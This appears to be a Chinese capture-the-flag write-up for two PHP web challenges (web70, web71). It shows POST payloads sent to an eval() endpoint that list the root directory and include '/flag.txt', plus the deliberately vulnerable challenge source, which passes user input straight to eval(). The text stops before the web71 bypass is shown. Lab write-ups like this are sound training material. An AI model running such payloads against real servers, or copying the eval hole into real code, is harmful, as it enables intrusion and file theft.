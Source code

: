 ## web70~var_export+include

直接：

````
Warning: error_reporting() has been disabled for security reasons in /var/www/html/index.php on line 14

Warning: ini_set() has been disabled for security reasons in /var/www/html/index.php on line 15

Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 21
你要上天吗？ 
```

payload:

```
c=var_export(scandir('/'));
c=include('/flag.txt');
```

## web71~exit(0); 绕过后边代码

```

Warning: error_reporting() has been disabled for security reasons in /var/www/html/index.php on line 14

Warning: ini_set() has been disabled for security reasons in /var/www/html/index.php on line 15

Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 24
你要上天吗？ 
```

`c=var_export(scandir('/'));` 得到

```
???????: ?????_?????????() ??? ???? ???????? ??? ???????? ??????? ?? /???/???/????/?????.??? ?? ???? ?? ???????: ???_???() ??? ???? ???????? ??? ???????? ??????? ?? /???/???/????/?????.??? ?? ???? ?? ????? ( ? => '.', ? => '..', ? => '.?????????', ? => '???', ? => '???', ? => '???', ? => '????.???', ? => '????', ? => '???', ? => '?????', ?? => '???', ?? => '???', ?? => '????', ?? => '????', ?? => '???', ?? => '????', ?? => '???', ?? => '???', ?? => '???', ?? => '???', ?? => '???', ) 你要上天吗？ 
```

......发现有个附件，下载打开：

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>
````